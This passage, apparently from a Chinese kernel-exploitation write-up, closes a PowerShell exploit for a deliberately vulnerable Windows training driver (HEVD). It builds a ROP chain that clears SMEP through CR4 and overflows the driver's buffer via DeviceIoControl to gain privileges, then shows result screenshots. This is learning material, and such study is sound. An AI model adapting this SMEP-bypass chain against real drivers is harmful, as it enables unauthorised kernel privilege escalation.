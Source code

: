```
$dwSegBaseAddr = 0x401000
$dwSegOffset = 0x1000
$dwBasePOPEAX = 0x0048BF1D
$dwBaseMOVCR4 = 0x0057DF86
$dwRealMOVCR4 = $dwBaseMOVCR4 - $dwSegBaseAddr + $leakAddress + $dwSegOffset
$dwRealPOPEAX = $dwBasePOPEAX - $dwSegBaseAddr + $leakAddress + $dwSegOffset
$dwCR4 = 0x406e9
echo "[+] pop eax is $($dwRealPOPEAX) `n[+] mov cr4 is $($dwRealMOVCR4)`n"

# finally we write buffer
$Buffer = [Byte[]](0x41)*$dwSize + [System.BitConverter]::GetBytes($dwRealPOPEAX) + [Byte[]](0x41)*8 + [System.BitConverter]::GetBytes($dwCR4) + [System.BitConverter]::GetBytes($dwRealMOVCR4) + $EIP

[EVD2]::DeviceIoControl($hDevice, 0x222003, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero)|Out-null
```

### <a class="reference-link" name="%E6%94%BB%E5%87%BB%E7%BB%93%E6%9E%9C"></a>攻击结果

不知道为啥，提权有时候会失败，不过失败了似乎也没有进入蓝屏的样子…

[![](https://p1.ssl.qhimg.com/t01b29ef939d2cc52b3.png)](https://p1.ssl.qhimg.com/t01b29ef939d2cc52b3.png)

使用powershell进行攻击的结果如下

[![](https://p0.ssl.qhimg.com/t01c7c7346c422f82b4.png)](https://p0.ssl.qhimg.com/t01c7c7346c422f82b4.png)
